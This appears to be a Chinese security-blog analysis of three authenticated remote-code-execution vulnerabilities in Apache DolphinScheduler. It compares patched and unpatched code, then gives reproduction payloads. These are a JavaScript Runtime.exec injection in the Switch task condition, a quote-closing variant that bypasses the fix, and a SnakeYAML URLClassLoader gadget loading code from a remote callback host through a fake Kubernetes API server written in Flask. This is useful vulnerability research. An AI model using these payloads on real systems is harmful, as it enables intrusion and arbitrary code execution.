




Apache DolphinScheduler auth RCE（CVE-2023-49299&CVE-2024-23320&CVE-2023-49109）

- - -

# Apache DolphinScheduler auth RCE（CVE-2023-49299&CVE-2024-23320&CVE-2023-49109）

## 前置

最近看到Apache DolphinScheduler发了几个auth rce的漏洞。  
参考一下漏洞通告分析一波

-   [https://seclists.org/oss-sec/2023/q4/347。](https://seclists.org/oss-sec/2023/q4/347%E3%80%82)
-   [https://github.com/apache/dolphinscheduler/pull/14991](https://github.com/apache/dolphinscheduler/pull/14991)

## CVE-2023-49299

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301115630-afa08632-d77f-1.png)

首先diff一下3.1.8和3.1.9两个版本的代码，存在一个关键的类SwitchTaskUtils：

这里的evaluate方法可以直接通过js引擎执行传入进来的代码，并且在3.1.9版本新增了一个generateContentWithTaskParams方法。

全局搜索一下SwitchTaskUtils.evaluate方法的调用，在SwitchTaskProcessor类中找到了具体的调用流程：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301115640-b5903a56-d77f-1.png)

可以看到在3.1.9版本中，进入evaluate方法的参数content经过了新增的generateContentWithTaskParams方法处理，而原版本是调用当前类的setTaskParams方法进行处理的。

setTaskParams方法的具体代码如下，该方法的逻辑是在全局或者传入的参数中寻找变量的值，然后将传入的content中带有类似${a}形式的字符串，直接将其中的变量a替换成寻找到的字符串。

```plain
public String setTaskParams(String content, String rgex) {
        Pattern pattern = Pattern.compile(rgex);
        Matcher m = pattern.matcher(content);
        Map<String, Property> globalParams = (Map)JSONUtils.toList(this.processInstance.getGlobalParams(), Property.class).stream().collect(Collectors.toMap(Property::getProp, (Property) -> {
            return Property;
        }));
        Map<String, Property> varParams = (Map)JSONUtils.toList(this.taskInstance.getVarPool(), Property.class).stream().collect(Collectors.toMap(Property::getProp, (Property) -> {
            return Property;
        }));
        if (varParams.size() > 0) {
            varParams.putAll(globalParams);
            globalParams = varParams;
        }

        while(m.find()) {
            String paramName = m.group(1);
            Property property = (Property)globalParams.get(paramName);
            if (property == null) {
                return "";
            }

            String value = property.getValue();
            if (!NumberUtils.isCreatable(value)) {
                value = "\"" + value + "\"";
            }

            this.logger.info("paramName:{}，paramValue:{}", paramName, value);
            content = content.replace("${" + paramName + "}", value);
        }

        return content;
    }
```

而新增的generateContentWithTaskParams方法如下：

```plain
public static String generateContentWithTaskParams(String condition, Map<String, Property> globalParams, Map<String, Property> varParams) {
        String content = condition.replaceAll("'", "\"");
        if (MapUtils.isEmpty(globalParams) && MapUtils.isEmpty(varParams)) {
            throw new IllegalArgumentException("globalParams and varParams are both empty, please check it.");
        } else {
            Map<String, Property> params = Maps.newHashMap();
            if (MapUtils.isNotEmpty(globalParams)) {
                params.putAll(globalParams);
            }

            if (MapUtils.isNotEmpty(varParams)) {
                params.putAll(varParams);
            }

            Pattern pattern = Pattern.compile("['\"]*\\$\\{(.*?)\\}['\"]*");
            Matcher m = pattern.matcher(content);

            while(true) {
                String paramName;
                Property property;
                do {
                    if (!m.find()) {
                        if (content.equals(content)) {
                            throw new IllegalArgumentException("condition is not valid, please check it. condition: " + condition);
                        }

                        return content;
                    }

                    paramName = m.group(1);
                    property = (Property)params.get(paramName);
                } while(property == null);

                String value;
                if (!ParameterUtils.isNumber(property) && !ParameterUtils.isBoolean(property)) {
                    value = "\"" + ParameterUtils.getParameterValue(property) + "\"";
                } else {
                    value = "" + ParameterUtils.getParameterValue(property);
                }

                log.info("paramName:{}，paramValue:{}", paramName, value);
                content = content.replace("${" + paramName + "}", value);
            }
        }
    }
```

大致的处理逻辑和之前的一样，这不过这里新增了一个判断，如果传入的content不满足`['\"]*\\$\\{(.*?)\\}['\"]*`这个正则，则抛出异常。（这样新增判断修复其实是为了防止直接传入JS代码，但同时也存在另外一个问题，后面再提）

复现流程如下  
1、登陆系统之后，在项目管理中新增一个`工作流定义`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301115700-c1680458-d77f-1.png)

其中存在问题的就是这个Switch标签，其对应的就是SwitchTaskProcessor。  
2、创建的内容如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301115706-c4f6fce6-d77f-1.png)

在`条件`中输入Payload：

```plain
var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec("touch /tmp/rce")};
```

3、创建成功之后运行即可，会发现命令执行成功，在/tmp临时目录下生成文件：

## CVE-2024-23320

现在再来看看3.1.9版本，直接执行会抛出异常，但可以通过其他方式来执行任意的JS代码。前面说到过，generateContentWithTaskParams方法会将类似${a}这种形式的字符串替换调，即在全局或者传入的参数中寻在a变量对应的值，然后将${a}替换成"a对应的值"。

所以这里只需要在传入的变量中将变量a指定成js代码即可，Payload如下：

```plain
";var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec("touch /tmp/rce")};//
```

这里闭合一下"然后拼接同样可以达到命令执行的目的：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301115717-cc00c864-d77f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301115722-cea0547c-d77f-1.png)

## CVE-2023-49109

官网给出的修复issue：[https://github.com/apache/dolphinscheduler/pull/14991](https://github.com/apache/dolphinscheduler/pull/14991)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301115728-d25ced64-d77f-1.png)

删除了upsertNamespacedResourceToK8s的相关操作，这里yaml.loadAs很容易想到反序列化漏洞，查看3.2.0版本的snakeyaml的版本是1.33，判断存在CVE-2022-1471漏洞。

修复issue中给出了Controller，所以这里主要看下如何构造yamlStr。  
createK8sNamespace代码如下：

```plain
......
if (!Constants.K8S_LOCAL_TEST_CLUSTER_CODE.equals(k8sNamespaceObj.getClusterCode())) {
                        try {
                            String yamlStr = this.genDefaultResourceYaml(k8sNamespaceObj);
                            this.k8sClientService.upsertNamespaceAndResourceToK8s(k8sNamespaceObj, yamlStr);
                        } catch (Exception var13) {
                            log.error("Namespace create to k8s error", var13);
                            this.putMsg(result, Status.K8S_CLIENT_OPS_ERROR, new Object[]{var13.getMessage()});
                            return result;
                        }
                    }
```

这里判断了一下，如果不是本地测试用例，就会进入到下面的genDefaultResourceYaml和upsertNamespaceAndResourceToK8s函数中。  
genDefaultResourceYaml的代码如下：

```plain
private String genDefaultResourceYaml(K8sNamespace k8sNamespace) {
        String name = k8sNamespace.getNamespace();
        String namespace = k8sNamespace.getNamespace();
        String cpuStr = null;
        if (k8sNamespace.getLimitsCpu() != null) {
            cpuStr = k8sNamespace.getLimitsCpu() + "";
        }

        String memoryStr = null;
        if (k8sNamespace.getLimitsMemory() != null) {
            memoryStr = k8sNamespace.getLimitsMemory() + "Gi";
        }

        String result = resourceYaml.replace("${name}", name).replace("${namespace}", namespace);
        if (cpuStr == null) {
            result = result.replace("${limitCpu}", "");
        } else {
            result = result.replace("${limitCpu}", "limits.cpu: '" + cpuStr + "'");
        }

        if (memoryStr == null) {
            result = result.replace("${limitMemory}", "");
        } else {
            result = result.replace("${limitMemory}", "limits.memory: " + memoryStr);
        }

        return result;
    }
```

也就namespace可控，但是在进入upsertNamespaceAndResourceToK8s方法之后，会有一层判断，如下：

```plain
if (!this.checkNamespaceToK8s(k8sNamespace.getNamespace(), k8sNamespace.getClusterCode())) {
            throw new RemotingException(String.format("namespace %s does not exist in k8s cluster, please create namespace in k8s cluster first", k8sNamespace.getNamespace()));
        } else {
            return this.upsertNamespacedResourceToK8s(k8sNamespace, yamlStr);
        }
```

这离会判断设置的k8s集群中是否存在传入的namespace。正常集群肯定不行，因为想要利用成功，就需要设置namespace为类似!!javax.script.ScriptEngineManager \[!!java.net.URLClassLoader \[\[!!java.net.URL \["[http://dnslog](http://dnslog/)"\]\]\]\] 这样的字符串，所以需要伪造一个集群Server端，绕过这里的判断。

复现过程如下：  
1、集群配置，将masterUrl指定为伪造的Server端：

```plain
apiVersion: v1
clusters:
- cluster:
    server: http://127.0.0.1:5000
  name: kubernetes
contexts:
- context:
    cluster: kubernetes
  name: kubernetes-admin@kubernetes
current-context: kubernetes-admin@kubernetes
kind: Config
preferences: {}
users: []
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301115740-d9636660-d77f-1.png)

2、伪造Server端  
启动如下Flask脚本：

```plain
from flask import Flask, jsonify

app = Flask(__name__)

@app.route('/api/v1/namespaces', methods=['GET'])
def get_namespaces():
    namespaces = {
  "kind": "NamespaceList",
  "apiVersion": "v1",
  "metadata": {
    "selfLink": "/api/v1/namespaces",
    "resourceVersion": "123456"
  },
  "items": [
    {
      "metadata": {
        "name": "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://jifm.callback.red\"]]]]",
        "uid": "9c8b7a6f",
        "creationTimestamp": "2024-02-22T12:00:00Z"
      },
      "spec": {
        "finalizers": []
      },
      "status": {
        "phase": "Active"
      }
    }
  ]
}
    return jsonify(namespaces)

if __name__ == '__main__':
    app.run(debug=True)
```

设置Namespace为!!javax.script.ScriptEngineManager \[!!java.net.URLClassLoader \[\[!!java.net.URL \["[http://jifm.callback.red"\]\]\]\]即可](http://jifm.callback.red/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301115749-de9a8d34-d77f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301115754-e1aa505e-d77f-1.png)

## 参考链接

[https://seclists.org/oss-sec/2023/q4/347](https://seclists.org/oss-sec/2023/q4/347)  
[https://github.com/apache/dolphinscheduler/pull/14991](https://github.com/apache/dolphinscheduler/pull/14991)
